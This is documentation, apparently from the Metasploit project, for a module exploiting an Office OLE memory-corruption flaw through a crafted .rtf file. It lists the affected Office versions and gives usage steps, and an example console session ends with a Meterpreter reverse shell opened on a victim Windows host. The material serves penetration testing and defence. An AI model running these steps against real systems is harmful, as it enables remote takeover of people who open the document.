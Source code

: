 Office products within the last 17 years allow an attacker to execute arbitrary commands through memory corruption in Office documents. This occurs in how MS office fails to properly handle OLE objects in memory. Requires an victim
to open an MS `.rtf` file. In addition for the payload to be executed, the user must not open as read-only. Otherwise requires no interaction beyond that from the user.

## Vulnerable Application

- Microsoft Office 2016
- Microsoft Office 2013 Service Pack 1
- Microsoft Office 2010 Service Pack 2
- Microsoft Office 2007

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/fileformat/office_ms17_11882`
3. Do: `set PAYLOAD [PAYLOAD]`
4. Do: `run`

## Options
### FILENAME
Filename to output, and location to which should be written.


## Example

```
msf > use exploit/windows/fileformat/office_ms17_11882
msf exploit(office_ms17_11882) > set FILENAME /home/mumbai/file.rtf
FILENAME => /home/mumbai/file.rtf
msf exploit(office_ms17_11882) > set LHOST ens3
LHOST => ens3
msf exploit(office_ms17_11882) > set LPORT 35116
LPORT => 35116
msf exploit(office_ms17_11882) > run
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.0.11:35116
msf exploit(office_ms17_11882) > [*] Using URL: http://0.0.0.0:8080/e08qBLfVxgaJZPo
[*] Local IP: http://192.168.0.11:8080/e08qBLfVxgaJZPo
[*] Server started.
[*] 192.168.0.24     office_ms17_11882 - Handling initial request from 192.168.0.24
[*] 192.168.0.24     office_ms17_11882 - Stage two requestd, sending
[*] Sending stage (205379 bytes) to 192.168.0.24
[*] Meterpreter session 1 opened (192.168.0.11:35116 -> 192.168.0.24:52217) at 2017-11-21 14:41:59 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
